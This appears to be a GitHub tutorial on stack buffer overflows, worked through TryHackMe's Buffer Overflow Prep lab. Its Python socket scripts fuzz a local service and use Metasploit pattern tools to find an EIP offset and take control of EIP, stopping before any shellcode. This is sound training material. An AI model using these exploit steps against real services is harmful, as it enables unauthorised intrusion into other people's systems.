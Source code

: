 # BufferOverflow Notes
Thanks to Legacy for for being a great teacher! You can also refer to his guide as well as mine.  
[Legacyy](https://github.com/iilegacyyii)  
[Legacyy's cheat sheet](https://github.com/iilegacyyii/x32-BOF-Notes)  

### I will will be using Buffer Overflow Prep Lab on tryhackme as an example
https://tryhackme.com/room/bufferoverflowprep
#
# How do I start?  
- Identify and understand your program.
  - What does it do?
  - What functions does it have?
  - Can force the program to segment fault?

### Testing the program
- Let's launch the program first and understand it. Let's start off by connecting to the program using netcat.

![GitHub Logo](images/2.png)

- We can see the incoming connects to the listening port 1337.

![GitHub Logo](images/1.png)

- Let's create a python script and create a socket connection to the server ip and port. In this lab, we are first testing the local binary, so we will use 127.0.0.1 as the ip address and port 1337. We can see the program responding, we then set

```python
import socket

HOST = "127.0.0.1"
PORT = 1337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

buf = b""
buf = b"HELP"

s.send(buf)
print(s.recv(1024))
```
- We can see multiple functions we can test. 

![GitHub Logo](https://i.imgur.com/PNyrObU.png)

- We will then send a large number of bytes to function OVERFLOW2.

```python
import socket

HOST = "127.0.0.1"
PORT = 1337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

print(s.recv(1024))

buf = b""
buf += b"OVERFLOW2 "
buf += b"A"*5000

s.send(buf)
print(s.recv(1024))
```

- We will use immunity debugger to test the program. Open the binary and press F9 to start the program.

![GitHub Logo](images/5.png)

- When you execute the python script the program will segment fault causing the program to crash. You will then be able to view your registers. Your EIP will be overwritten with A's (41414141).

![GitHub Logo](images/7.png)

### Exploiting the program

- Knowing that 2000 bytes of A's we can then generate a cyclic pattern of characters using msf-pattern_create.

```
msf-pattern_create -l 1234
```
```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

pattern = b"<PATTERN>"

buf = b""
buf += b"OVERFLOW2 "
buf += pattern

s.send(buf)
print(s.recv(1024))
```

![GitHub Logo](images/8.png)

- Set your pattern to a variable and add it to your buf variable and test it again in immunity.

![GitHub Logo](images/9.png)

- Your EIP will get overwritten by your cyclic pattern in this case we got '76413176'.

![GitHub Logo](images/10.png)

- Find your offset value by running your cyclic overwritten EIP against msf-pattern_offset

```
msf-pattern_offset -q 76413176
```

- You will now get an offset value of 634

![GitHub Logo](images/11.png)

- Set your offset to a variable and add it to your buf variable. Your "A" will multiply by your offset value this will be your buffer. Overwrite your EIP with your B's by adding them to your buf variable. 

```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))
offset = 634

buf = b""
buf += b"OVERFLOW2 "
buf += b"A" * offset
buf += b"BBBB"

s.send(buf)
print(s.recv(1024))
```

- Rerun the program on immunity and test again. Verify that EIP has been overwritten.

![GitHub Logo](images/13.png)




